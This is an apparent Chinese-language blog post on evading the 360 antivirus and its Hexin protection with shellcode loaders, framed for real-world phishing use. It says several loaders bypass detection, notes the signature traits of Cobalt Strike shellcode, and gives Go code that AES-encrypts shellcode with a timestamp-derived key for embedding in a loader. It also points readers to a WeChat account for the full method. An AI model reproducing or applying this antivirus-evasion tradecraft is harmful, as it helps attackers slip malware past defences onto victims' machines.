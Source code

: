 接下来就是惊心动魄的查杀环节了，我们上360并开启何晶对该EXE进行查杀，如果何晶并没有报毒，那么也就证明了该Shellcode加载器是可使用的，目前笔者对该项目中的Shellcode加载器进行分离，发现目前是有7种shellcode loader 是可以绕过360核晶的，至于是那7种我在这里就不直说了，防止被非法人员利用。反正思路就在这块。

# 0x02实战bypass 360何晶

进过上一步的操作我们是已经找到了可用的 Shellcode 加载器，如果我们想在实战中使用的话，这样是远远不够的因为如果是在钓鱼场景下的利用的话，根本不能使用。

## 硬编码Shellcode

对于怎么传入我们的Shellcode，硬编码直接写死在我们的程序中是一种非常粗暴的方法，坑定是不行的，因为cs生成出来的Shellcode特征太明显了比如说964 bytes和Shellcode的头部fc48这都是非常明显的特征了。

目前常见的去Shellcode特征的方法就是对Shellcode进行AES XOR 等等的加密。

这块我就使用AES方法给大家演示一下吧！  如果想获取完整的AES加密方法 关注公众号回复：免杀 即可拥有

```
func main() {

	// 读取shellcode
	shellcode, _ := ioutil.ReadFile(os.Args[1])
	// shellcode转换为fc 格式
	//fmt.Println(shellcode)
	shellcode_hex := hex.EncodeToString(shellcode)
	// 定义AES key
	key := time.Now().String()[5:29] //根据时间戳生成一个随机AES秘钥
	b, _ := AesEncrypt([]byte(shellcode_hex), []byte(key))
	//fmt.Println("enc_info: " + string(b))
	err := ioutil.WriteFile("key.txt", []byte(key), 0644)
	if err == nil {
		log.Println("AES秘钥生成成功 保存在key.txt中")
	}
	err = ioutil.WriteFile("shellcode.txt", []byte(b), 0644)
	if err == nil {
		log.Println("shellcode 加密成功 保存在shellcode.txt中")
	}
	//解密
	var infoList = [...]string{"abcwsxedd1234567", "456ybds"}
	infoList[0] = key
	infoList[1] = b

	res, _ := AesDecrypt(infoList[1], []byte(infoList[0]))
	fmt.Println(res)
	if bytes.Equal([]byte(shellcode_hex), res) {
		log.Println("success")
	}
}
```

![image-20230519213911683](./Bypass 360核晶 上线.assets/image-20230519213911683.png)

将加密后的Shellcode 以及解密方法 放入我们的Shellcode loader
